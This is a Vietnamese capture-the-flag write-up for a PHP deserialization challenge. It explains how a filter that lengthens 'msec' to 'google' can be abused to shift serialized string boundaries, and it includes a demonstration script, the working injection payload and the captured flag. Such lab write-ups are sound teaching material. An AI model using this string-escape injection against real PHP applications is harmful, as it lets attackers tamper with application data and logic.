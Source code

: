 Yeeee!! Cứ đọc đến PHP là thấy phấn chấn  
# Giao diện và đề bài  
![Imgur](https://i.imgur.com/zHh0kSo.png)  

+ Phân tích đề bài:  
Hàm filter sẽ replace toàn bộ chữ msec thành chữ google  
Nhận tham số chúng ta truyền vào adc, sau đó tính độ dài payload và đưa vào trong đoạn string ở dạng serialize 1 array có 2 phần tử  
Sau đó filter đoạn string và unserialize nó ra array chứa 2 phần tử. Nếu phần tử thứ 2 thỏa mãn thì in ra flag.  
```php
function filter($string){
    $filter = '/x/i';
    return preg_replace($filter,'hi',$string);
}
$a=array("applex","orange");
echo serialize($a);
echo "\n";
$r=filter(serialize($a));
echo $r;
echo "\n";
//-----------------------------------------------------------------------
$b='a:2:{i:0;s:49:"applexxxxxxxxxxxxxxxxxxxxxx";i:1;s:8:"scanfsec";};i:1;s:6:"orange";}';
// Ở đây số lượng ký tự x = len('";i:1;s:8:"scanfsec";}')
// 49 là độ dài của 'applexxxxxxxxxxxxxxxxxxxxxx";i:1;s:8:"scanfsec";}', tạo ra 49 byte chứa đoạn string
// Sau khi thay đổi độ dài của applex, thì applehihi.. sẽ chứa đầy 49 byte, lúc nào sẽ xét đến i:1 là đoạn string mình đưa vào
var_dump(unserialize(filter($b)));
```  
Kết quả:  
![Imgur](https://i.imgur.com/JvcN32Z.png)  
Với cách làm trên, mình sử dụng payload: hehe=msecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsecmsec";i:1;s:19:"ms3c_m@i_d1nh_hehe_";}  
![Imgur](https://i.imgur.com/zxdhNPC.png)  

Flag: MSEC{_Welcome_Exploit_PHP_Deserialization_!!@@*&^$}
